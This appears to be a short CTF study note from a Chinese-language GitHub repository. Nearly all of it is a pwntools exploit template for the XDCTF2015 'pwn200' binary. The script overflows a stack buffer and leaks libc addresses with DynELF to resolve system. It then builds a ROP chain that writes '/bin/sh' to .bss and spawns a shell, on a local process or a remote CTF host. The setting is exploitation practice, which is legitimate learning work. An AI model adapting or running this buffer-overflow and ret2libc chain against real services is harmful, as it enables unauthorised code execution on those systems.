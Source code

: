 # CTF-Pwn学习记录


**Record of Pwn-Learning.**



**exp的板子**

```python
# -*- coding: UTF-8 -*-
import sys
from pwn import *

context(log_level='debug', arch='i386', os='linux')
#context(log_level='debug',arch='amd64', os='linux')
pwnfile = './pwn200'
if len(sys.argv) < 2:
    io = process(pwnfile)
else:
    io = remote('61.147.171.105', 50890)
elf = ELF(pwnfile)
rop = ROP(pwnfile)

#以调试的模式运行程序
#gdb.attach(io)
#pause()
start_addr = 0x080483d0
func_addr = 0x08048484
padding = 0x70
delimiter = 'Welcome to XDCTF2015~!'
write_plt = elf.symbols['write']
read_plt = elf.symbols['read']


def leak(address):
    payload = flat([b'a' * padding, write_plt, func_addr, 1, address, 4])
    io.sendline(payload)
    # io.sendlineafter(delimiter,payload)
    data = io.recv(4)
    print(data)
    return data


print(io.recv())
dyn = DynELF(leak, elf=ELF(pwnfile))
sys_addr = dyn.lookup("system", 'libc')
print("system address:", hex(sys_addr))
payload1 = flat([b'a' * padding, start_addr])
# io.sendlineafter(delimiter,payload1)
# #调用start函数恢复栈
io.sendline(payload1)
io.recv()

ppp_addr = 0x0804856c
bss_addr = elf.bss()
payload2 = flat([
    b'a' * padding, read_plt, ppp_addr, 0, bss_addr, 8, sys_addr, func_addr,
    bss_addr
])

#payload = b'a' * padding + p32(return_addr) + p32(sh_addr)

io.sendline(payload2)
io.send('/bin/sh')
```
